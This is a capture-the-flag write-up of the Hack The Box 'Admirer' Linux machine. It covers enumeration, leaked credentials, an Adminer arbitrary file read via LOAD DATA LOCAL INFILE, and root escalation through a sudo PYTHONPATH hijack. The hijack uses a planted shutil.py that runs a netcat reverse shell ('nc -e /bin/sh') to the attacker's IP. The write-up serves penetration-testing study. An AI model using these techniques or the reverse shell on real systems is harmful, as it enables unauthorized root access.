


# Admirer

<table>
    <tr>
    <td style="text-align:right;"><b>OS</b></td>
    <td>Linux</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Difficulty</b></td>
    <td>Easy</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Points</b></td>
    <td>20</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Release</b></td>
    <td>02 May 2020</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>IP</b></td>
    <td>10.10.10.187</td>
    </tr>
</table>

## Summary

This machine attempts to simulate a more real-life machine which creates a ton of rabbit holes. The early stages focus heavily on enumeration and it eventually leads to a vulnerability on the web server to get a user. In the privilege escalation to root, we take advantage of a command we're able to run as root and escape to create a reverse shell.

## Foothold

To begin, we will add the entry `10.10.10.187 admirer.htb` to `/etc/hosts` and then start scanning.

```
# nmap -sC -sV -T4 admirer.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-07 16:10 EDT
Nmap scan report for admirer.htb (10.10.10.187)
Host is up (0.12s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

From this, we see that FTP, SSH, and HTTP are open. Since FTP doesn't allow anonymous access, we will have to start enumeration on the web server. 


Besides the pictures on this page, there is not much to it. We could begin to try to find directories but there is one more interesting result from the scan: there is a `robots.txt` file. This file tells search engines not to index a file or folder. We'll look at this to see the 1 disallowed entry.

```
User-agent: *

# This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
Disallow: /admin-dir
```

We see that there is a directory called `admin-dir` on the server. If we browse to it we get a forbidden error. Before we start trying to find files in there, we can use the commented hint from the robots file. There are files for contacts and creds. If we try to guess some simple names, we can find two files. One named `contacts.txt` and another named `credentials.txt`.

```
// contacts.txt

##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb


##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb


#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

```
// credentials.txt

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

Looking at the credentials file, since we know there is FTP running, we can try to login with those credentials and see what we can find.

```
# ftp admirer.htb 
Connected to admirer.htb.
220 (vsFTPd 3.0.3)
Name (admirer.htb:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02 21:24 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03 21:20 html.tar.gz
```

We see there is a dump of SQL command history and a backup of what appears to be the html from the website. Let's take a closer look. The dump just has commands for inserting the pictures we saw earlier in to the website database and has no valuable information. If we untar the html file, we get all the files from the website.

```
# cd html
# ls *
index.php  robots.txt

assets:
css  js  sass  webfonts

images:
fulls  thumbs

utility-scripts:
admin_tasks.php  db_admin.php  info.php  phptest.php

w4ld0s_s3cr3t_d1r:
contacts.txt  credentials.txt
```

We can see right away that this is actually slightly tweaked from what is currently live. `w4ld0s_s3cr3t_d1r` contains the same files that we found in `admin-dir`. If we look at `index.php` we see some authentication code for the database.

```
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
```

These credentials are old and do not work on FTP or SSH. We'll continue to look at more files. The php scripts in the `utility-scripts` directory are there and working besides `db_admin.php`. Beyond this, there is not much left so we'll have to keep enumerating. The most promising place to look is `utility-scripts` since we've already looked at `admin-dir`. We will try to fuzz any different php files from it.

```
# wfuzz -c --hc 403,404 -w /usr/share/wordlists/dirb/big.txt http://admirer.htb/utility-scripts/FUZZ.php

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://admirer.htb/utility-scripts/FUZZ.php
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                         
===================================================================

000001873:   200        51 L     235 W    4156 Ch     "adminer"
```

It found `adminer.php` which seems like the next obvious place to look based on the machine name.



## User

With this login page we can try the various different credentials we have found but none of them work. If we try to look up any exploits with `searchsploit` we turn up empty-handed as well. We can turn to the Internet and find an [article](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f) about being able to read arbitrary files from the file system. If we connect to a dummy database on our local machine, we can take advantage of the fact that SQL is able to read local files which would actually be from the remote machine. By starting the `mysql` service on our local machine and allowing `admirer.htb` to connect to it, we can get in to the Adminer service.



From here, we just need to create a test table that takes one column of VARCHAR. Now we can execute the SQL command to read files. One file of interest is the `index.php` from before which had invalid credentials.

```SQL
LOAD DATA LOCAL INFILE '../index.php' 
INTO TABLE test
FIELDS TERMINATED BY "\n"
```

If we go to our test table, we can see the contents of the live version of this file and get the new credentials.

```
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

These credentials turned out to be waldo's current credentials and we can SSH as him now and get the flag.

```
# ssh waldo@admirer.htb 
waldo@admirer.htb's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux
Last login: Sun May 24 20:35:48 2020 from 10.10.15.17
waldo@admirer:~$ ls
user.txt
waldo@admirer:~$ cat user.txt
4bbd12**************************
```

## Root

We can start our privilege escalation enumeration through some basic techniques and find something interesting.

```
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
...
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

We are allowed to run the `admin_tasks.sh` as anybody and set environment variables as well. Let's take a look at this file for interesting sections. One of those sections is the `backup_web` function which calls another file in the `/opt/scripts` directory.

```bash
# admin_tasks.sh

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```

If we take a look at the Python script called, it is also fairly simple.

```python
# backup.py

#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

One interesting environment variable available is `PYTHONPATH`. If we change this variable, we can choose where Python looks first to import packages. Using this, we could create our own `shutil.py` and get code execution as root and create a simple reverse shell.

```python
# shutil.py

#!/usr/bin/python3

import os

def make_archive(*args):
    os.system("nc -e /bin/sh 10.10.15.17 1234")
```

We can now put this file on the system, execute `admin_tasks.sh` as root with the `PYTHONPATH` variable set and get the flag.

```
waldo@admirer:/tmp/test$ sudo PYTHONPATH=/tmp/test/ /opt/scripts/admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```

```
# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.17] from (UNKNOWN) [10.10.10.187] 51654
whoami
root
cat /root/root.txt
b8ba6d**************************
```
